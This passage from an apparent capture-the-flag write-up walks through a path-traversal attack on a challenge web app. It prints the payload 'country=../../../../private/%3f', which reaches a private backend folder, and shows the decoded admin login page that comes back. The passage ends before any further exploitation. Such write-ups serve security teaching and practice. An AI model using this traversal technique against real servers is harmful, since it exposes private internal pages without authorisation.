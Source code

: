 Two approaches could be used here to discover more content on the backend webserver:
- Fuzzing using the `country` parameter with `#` or `?` suffix and a typical dictionnary
- Analyzing the classic message rendered:
`Image generated thanks to our private backend API. URL:http://war-backend/public/images/France.png`
`/public/` in the URL + mention of `private backend` can tips us to try accessing a `/private/` web folder.

Payload: `http://CHALL:8090/war-web.php?country=../../../../private/%3f&flag=1`
Response: `<img src='data:image/png;base64, Cjwh[...]LnBuZw=='/>`

On the web page the image is not loaging but the b64 decoded response is the following:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0" random="D3v0t34M">
    <title>WAR Admin</title>
    <style>
      [... CSS ...]
    </style>
</head>
<body>
    <div class="login-container">
        <h2>Login Form</h2>
        <form class="login-form" method="POST" target="/private/message.php">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Login</button>
        </form>
        <!-- 
        <form class="login-form" method="GET" target="/private/message.php">
            <input type="text" name="passcode" placeholder="passcode" required>
            <button type="submit">Login</button>
        </form>
         -->
    </div>
</body>
</html>
Image generated thanks to our private backend API. URL:http://war-backend/public/images/../../../../private/?.png
```

If we render it:

![private_backend](https://github.com/ChallengeHackDay/2024-qualif/assets/40593456/196b971d-6c03-4e61-a83d-1238c9b152af)

The `/private/` page has 2 forms in it, one using POST request and another, commented, using GET request targeting `/private/message.php`.

#### Since we can only impact the URL used by the front web server only the GET form can be used.
